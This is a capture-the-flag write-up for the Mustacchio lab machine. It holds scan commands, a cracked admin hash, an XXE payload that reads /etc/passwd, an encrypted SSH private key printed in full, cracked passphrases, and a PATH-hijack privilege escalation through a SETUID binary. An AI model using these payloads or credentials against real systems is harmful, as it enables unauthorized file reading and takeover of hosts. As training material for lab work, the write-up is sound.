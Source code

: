 # Mustacchio V2 Write-up - Easy

## Nmap

```
nmap -sC -sV <ip> -p-
```

Open ports:
- 22: ssh. OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
- 80: http. Apache httpd 2.4.18 ((Ubuntu))
- 8765: http. Nginx 1.10.3 (Ubuntu). Title: Mustacchio | Login

None of the versions appear to be vulnerable.

## Gobuster

### Port 80 - Blog
```
gobuster dir -e -u <ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```

Interesting directories:
- /robots.txt (nothing useful)
- /custom

Looking in the custom directory found the css and js directories. js contained an SQL backup file users.bak which after running strings gave me the following hashed credentials:
**admin : 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b**

### Port 8765 - Admin login
```
gobuster dir -e -u http://<ip>:8765 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```

Interesting directories:
- /auth (301 - Forbidden)
- /home.php (admin page)
- /index.php (login page)

## John the Ripper and Admin login

Running John the Ripper on the backup file hash quickly found the password:
```
john --wordlist=rockyou.txt hash
```
**admin : bulldog19**

This allowed me to login as admin at http://$ip:8765, which led me to an admin panel where I could add a comment to the website. Looking at the source code revealed 3 interesting things:

1) The comment 'Barry, you can now SSH in using your key!' 
2) The presence of a file '/auth/dontforget.bak'
3) The 'add comment' feature parses the input as xml code

Checking the dontforget.bak file returned some xml code:
```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>...</com>
</comment>
```

Using BurpSuite, I found that the data entered into the comment box is passed as an xml parameter. Providing the above code as a parameter mirrors the data back to me, a good indication there could be an XXE vulnerability.

## XXE to get the ssh key

I tested the following xml code to see if I could read the /etc/passwd file:
```
xml=<!DOCTYPE+replace+[<!ENTITY+name+SYSTEM+'file%3a///etc/passwd'>+]>
<comment>
++<name>%26name%3b</name>
++<author>Barry Clad</author>
++<com>...</com>
</comment>
```

And it worked! Three users have bash on the system: root, joe, and barry.
Previous information told me barry has an ssh key, so I looked in /home/barry and found it

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
```

## John the Ripper to decrypt the ssh key

```
ssh2john key > johnkey
john --wordlist=rockyou.txt johnkey
```

This quickly cracked the credentials:
**barry : urieljames**

## SSH - First flag

```
chmod 600 key
ssh barry@<ip> -i key
```

After giving the key the correct permissions I logged into ssh with barry's private key. This gave me the first flag from Barry's home directory.

## Privilege Escalation to joe - SETUID and PATH exploitation

Looking for SETUID binaries:

```
find / -perm -u=s -type f 2>/dev/null 
```

Found an interesting file: **/home/joe/live_log**

Running strings shows it is using the tail command, so we could write our own in the /tmp directory and change PATH to run our own script instead.

```
cd /tmp
vim tail
export PATH=/tmp:$PATH
chmod +x /tmp/tail
cd /home/joe
./live_log
```

Where the new tail command contains the following script to simply invoke bash:
```
#!/bin/bash
/bin/bash
```

And now we have root! This works because live_log will look for the 'tail' command in the /tmp directory first, and execute our script which invokes bash. Since the file is SETUID, bash is invoked as the root user instead of barry, thereby escalating our privileges.

```
cd /root
cat root.txt
```
And now we have our final flag!

